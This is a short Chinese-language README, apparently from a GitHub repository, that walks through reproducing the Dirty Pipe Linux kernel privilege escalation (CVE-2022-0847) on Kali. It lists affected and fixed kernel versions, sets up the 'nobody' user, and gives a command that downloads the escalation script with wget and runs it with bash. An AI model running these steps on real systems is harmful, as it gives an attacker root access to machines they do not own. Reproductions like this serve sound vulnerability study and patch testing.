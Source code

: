 # 影响版本
Linux kernel >= 5.8  
The vulnerability was fixed in Linux 5.16.11, 5.15.25 and 5.10.102  

# 漏洞复现
复现环境：kali-2022.1  
复现内核：Linux kali 5.15.0-kali3-amd64 #1 SMP Debian 5.15.15-2kali1 (2022-01-31) x86_64 GNU/Linux  

激活用户nobody：
```
usermod -d /tmp/ -s /usr/bin/dash nobody
passwd nobody
```
切换到用户nobody：
```
su - nobody
```
此时我们是nobody权限的shell，如下图  
![image](./pic/01.png)  

执行提权脚本
```
wget https://raw.githubusercontent.com/imfiver/CVE-2022-0847/main/Dirty-Pipe.sh
bash ./Dirty-Pipe.sh
```
如下图  
![image](./pic/02.png)  